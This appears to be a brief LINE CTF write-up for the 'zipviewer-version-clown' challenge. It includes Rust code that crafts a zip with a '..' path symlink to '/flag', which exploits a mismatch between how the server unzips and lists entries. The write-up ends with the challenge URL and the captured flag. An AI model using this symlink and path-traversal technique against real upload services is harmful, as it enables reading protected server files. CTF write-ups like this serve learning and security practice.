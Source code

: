 # zipviewer-version-clown

If the path of the file contains `..`, it is handled differently during the unzipping and the entry listing.
We can exploit this discrepancy to prevent a symbolic link file from being deleted.

Here is a Rust code that generates such a zip file:

```rust
use std::io::Cursor;

use zip::write::FileOptions;

fn main() -> anyhow::Result<()> {
    let mut buffer = Vec::new();
    {
        let mut zip = zip::ZipWriter::new(Cursor::new(&mut buffer));

        zip.start_file("flag", FileOptions::default())?;

        zip.start_file("middle/flag", FileOptions::default())?;
        zip.add_symlink("middle/../a", "/flag", FileOptions::default())?;

        zip.finish()?;
    }

    std::fs::write("prepare.zip", &buffer)?;

    Ok(())
}
```

After uploading this zip file, the flag can be downloaded at `http://35.243.120.91:11001/download/a`.

Flag: `LINECTF{34d98811f9f20094d1cc75af9299e636}`
